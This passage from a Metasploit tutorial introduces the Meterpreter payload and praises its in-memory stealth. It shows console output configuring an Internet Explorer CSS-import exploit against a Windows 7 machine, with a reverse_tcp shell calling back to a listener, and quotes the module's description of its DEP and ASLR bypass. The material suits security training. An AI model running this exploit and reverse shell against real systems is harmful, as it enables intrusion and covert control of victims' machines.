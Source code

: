 # Meterpreter

Next, let's look at Meterpreter, the king of payloads. Meterpreter has no disk presence because it only exists in memory, and it leaves no trail behind of created processes because it injects itself in currently running processes. To top it off, its traffic is encrypted. I will show Meterpreter in action here, but this time, the target is a Windows 7 machine.

I've already set up the exploit:

``` plain
msf exploit(ms11_003_ie_css_import) > options

Module options (exploit/windows/browser/ms11_003_ie_css_import):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   OBFUSCATE  true             no        Enable JavaScript obfuscation
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL for incoming connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                     no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.80.155   yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

And the description of what this exploit does:

``` plain
Description:
  This module exploits a memory corruption vulnerability within 
  Microsoft\'s HTML engine (mshtml). When parsing an HTML page 
  containing a recursive CSS import, a C++ object is deleted and later 
  reused. This leads to arbitrary code execution. This exploit 
  utilizes a combination of heap spraying and the .NET 2.0 
  'mscorie.dll' module to bypass DEP and ASLR. This module does not 
  opt-in to ASLR. As such, this module should be reliable on all 
  Windows versions with .NET 2.0.50727 installed.
```
